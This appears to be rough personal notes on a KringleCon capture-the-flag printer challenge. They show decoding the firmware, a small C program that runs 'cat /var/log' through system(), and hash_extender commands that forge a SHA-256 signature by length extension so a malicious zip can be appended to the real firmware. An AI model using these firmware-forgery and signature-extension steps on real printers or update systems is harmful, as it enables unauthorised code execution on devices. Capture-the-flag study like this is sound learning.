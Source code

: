 # Break the Printer

[Printer Here](https://printer.kringlecastle.com/)

# Firmware
Download the current firmware from [here](https://printer.kringlecastle.com/firmware).

The downloaded json contains a base64 string that when decoded gives you a binary.

```bash
echo 'ENCODED STRING' | base64 -d > decode.bin
file decode.bin # zip archive
unzip decode.bin # gives you firmware.bin
```
Stuck at this point, need a linux box to run the executable (or I could use a docker image, but I'm lazy). Good use of WSL when I get my PC back up.

# Use the `strace, ltrace` Terminal
Go to santa's kitchen. Copy the binary over by:
## Local
```bash
xxd firmware.bin > firmware.hex
# copy firmware.hex content clipboard
```

## Terminal
```bash
vim firmware.hex
# paste contents
xxd -f firmware.hex firmware.bin
```

The firmware writes the string `"Firmware is fully up to date!\n"`. Need to figure out how to `cat` the log file so it appears on the printer web page.

# New Firmware
```c
#include <stdio.h>
#include <stdlib.h>

int main (void) {
   return system("cat /var/log");
}
```

start: 0000330

```bash
readelf
# Docker Shell
```bash
docker build -t bolden/debian:1.0 .
docker run --rm -v "tmp:/tmp" -ti bolden/debian:1.0 /bin/bash
```

# Hash Extension
https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

# References
https://reverseengineering.stackexchange.com/questions/21910/elf-x86-64-adding-function
http://www.skyfree.org/linux/references/ELF_Format.pdf

ln -s /usr/local/opt/openssl/lib /usr/local/lib/   

./hash_extender/hash_extender --data "`cat ./current.zip`" --secret 16 --append "`cat ./exploit.zip`" --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format sha256 --out-data-format hex

```bash
./hash_extender/hash_extender --data-format hex --data "`cat ./current.zip | xxd -p -c 99999`" --secret 16 --append-format hex --append $(cat ./exploit.zip | xxd -p -c 99999) --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format sha256 --out-data-format hex | xxd -r -p | base64 -o payload.base64
```

original
 json > base64 string > zip archive > elf binary

